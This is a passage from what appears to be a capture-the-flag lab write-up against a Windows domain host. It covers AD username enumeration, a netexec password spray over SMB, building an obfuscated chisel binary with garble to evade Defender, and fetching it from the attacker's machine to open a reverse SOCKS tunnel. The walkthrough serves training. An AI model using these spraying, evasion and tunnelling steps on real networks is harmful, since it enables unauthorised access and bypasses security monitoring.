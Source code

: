 Also, running the `Get-ADUser -Filter * | Select-Object SamAccountName` command to get a list of all users, we create a wordlist out of them as follows:

```console
$ cat usernames.txt
Administrator
Guest
...
Blizzard_Defender
scrawler
```

Now, spraying the password we have for all users using `netexec`, we see that it also works for the `Krampus_Debugger` user.

```console
$ nxc smb fisher.socmas.corp -u usernames.txt -p 'Ch[REDACTED]4!' --continue-on-success
SMB         10.10.39.152    445    FISHER           [*] Windows 10 / Server 2019 Build 17763 x64 (name:FISHER) (domain:socmas.corp) (signing:True) (SMBv1:False)
...
SMB         10.10.39.152    445    FISHER           [+] socmas.corp\Krampus_Debugger:Ch[REDACTED]4!
...
SMB         10.10.39.152    445    FISHER           [+] socmas.corp\Winterberry_Locksmit:Ch[REDACTED]4!
...
```

### Shell as Krampus_Shadow

Now that we have access to a couple of accounts, we can use `BloodHound` to enumerate the privileges for the accounts. However, we can't simply use `SharpHound` to collect the data since `Defender` is running on the target.

Instead, we can use `bloodhound-python` to collect the data from `LDAP` remotely. But since we can't reach the port for `LDAP`, we first need to use `chisel` to establish a proxy. However, since the default `chisel` executable is caught by `Defender`, we can use [garble](https://github.com/burrowers/garble) to build it ourselves to bypass `Defender` as follows:

```console
$ go install mvdan.cc/garble@latest
$ go install github.com/jpillora/chisel@latest
$ git clone https://github.com/jpillora/chisel chisel-src && cd chisel-src
$ env CGO_ENABLED=0 GOOS=windows GOARCH=amd64 garble -literals -tiny build -ldflags "-s -w -H windowsgui" -trimpath
```

First, we run our chisel server:

```console
$ chisel server -p 7777 --reverse --socks5
```

After that, we transfer the `chisel` executable we built to the server and run it to establish a **SOCKS** proxy.

```
PS C:\Windows\system32> curl http://10.11.72.22/chisel.exe -o C:\ProgramData\chisel.exe
PS C:\Windows\system32> C:\ProgramData\chisel.exe client 10.11.72.22:7777 R:socks
2024/12/19 11:49:04 client: Connecting to ws://10.11.72.22:7777
2024/12/19 11:49:05 client: Connected (Latency 83.2833ms)
```
